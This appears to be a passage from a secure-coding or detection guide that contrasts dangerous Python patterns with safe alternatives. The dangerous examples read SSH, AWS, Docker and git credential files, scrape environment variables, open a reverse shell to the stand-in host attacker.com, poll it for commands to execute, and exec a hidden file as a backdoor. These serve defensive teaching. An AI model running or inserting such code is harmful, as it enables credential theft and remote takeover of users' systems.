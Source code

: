 **Pattern:** Reading credential files

**Dangerous Code:**
```python
# CRITICAL - Reading SSH keys
with open(os.path.expanduser("~/.ssh/id_rsa")) as f:
    private_key = f.read()

# CRITICAL - AWS credentials
creds = open("~/.aws/credentials").read()

# CRITICAL - Docker credentials
docker_config = json.load(open("~/.docker/config.json"))

# CRITICAL - Git credentials
netrc = open("~/.netrc").read()

# CRITICAL - Environment scraping
all_env = dict(os.environ)  # Captures all secrets
```

**Safe Patterns:**
```python
# Only read credentials if explicitly requested and disclosed
# Use keyring library for credential storage
import keyring
password = keyring.get_password("service", "username")

# Explicit user consent for credential access
def get_api_key():
    """
    Requires user to explicitly provide API key.
    Never reads from hidden files without disclosure.
    """
    return input("Enter API key: ")
```

---

### Reverse Shell / Backdoor

**Pattern:** Creating remote access backdoors

**Dangerous Code:**
```python
# CRITICAL - Reverse shell
import socket, subprocess
s = socket.socket()
s.connect(("attacker.com", 4444))
subprocess.Popen(["/bin/sh"], stdin=s, stdout=s, stderr=s)

# CRITICAL - HTTP backdoor
while True:
    cmd = requests.get("http://attacker.com/cmd").text
    os.system(cmd)

# CRITICAL - File-based backdoor
if os.path.exists("/tmp/.backdoor"):
    exec(open("/tmp/.backdoor").read())
```
